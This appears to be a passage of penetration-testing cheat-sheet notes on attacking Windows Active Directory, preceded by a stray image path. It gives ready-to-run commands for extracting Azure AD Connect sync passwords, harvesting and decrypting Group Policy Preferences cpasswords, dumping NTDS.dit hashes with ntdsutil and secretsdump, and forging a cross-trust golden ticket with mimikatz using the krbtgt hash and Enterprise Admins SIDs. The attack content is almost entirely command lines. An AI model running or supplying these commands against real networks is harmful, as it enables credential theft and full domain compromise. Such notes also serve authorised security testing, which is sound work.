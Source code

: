 
### Azure AD (AAD) Sync service

- See: 
  - https://blog.xpnsec.com/azuread-connect-for-redteam/
  - https://github.com/dirkjanm/adconnectdump
  - https://app.hackthebox.com/machines/223
1. Extract password with [azuread_decrypt_msol.ps1](https://gist.github.com/analyticsearch/7453d22d737e46657eb57c44d5cf4cbb)
2. If it doesn't work, retrieve `$key_id`, `$instance_id` and `$entropy` with the following command (see also [azuread_decrypt_msol_v2.ps1](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c))
   - `sqlcmd -S SQLSERVER01 -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"`


### Group Policy Preferences (GPP) AKA MS14-025

1. `smbclient \\\\<IP>\\Replication`
2. `prompt off`
3. `recurse on`
4. `mget *`
   - focus on the files: `Groups.xml`, `Registry.pol`, `GPE.INI`, `GptTmpl.inf`
     - use the command `tree` to explore better the directory
- `gpp-decrypt <cpassword_value>`
- read Registry.pol
  - `regpol Registry.pol`
  - `Parse-PolFile -Path Registry.pol`


### Dump NTDS.dit

- No creds, access on DC: `powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full <output_directory>' q q"`
  - `root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local`
- Disk shadow, see: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration#no-credentials-diskshadow
- With credentials: `impacket-secretsdump -just-dc-ntlm <domain>/<username>@<DC_IP>`
- More: https://www.hackingarticles.in/credential-dumping-ntds-dit/



### Exploiting Domain Trust

1. With mimikatz, recover the KRBTGT password hash
   - `privilege::debug`
   - `lsadump::dcsync /user:<domain>\krbtgt`
2. With PowerShell, recover the SID of the child domain controller
   - `Get-ADComputer -Identity "<child_DC_name>"`
3. With PowerShell, recover the SID of the Enterprise Admins
   - `Get-ADGroup -Identity "Enterprise Admins" -Server <root_DC_FQDN>`
4. With mimikatz, create forged TGT
   - `kerberos::golden /user:Administrator /domain:<child_domain> /sid:<SID_of_child_domain> /service:krbtgt /rc4:<Password_hash_of_krbtgt_user> /sids:<SID_of_Enterprise_Admins_group> /ptt`
5. Verify the golden ticket > after that you can use Rubeus.exe
   - `dir \\<child_DC_FQDN>\c$`
   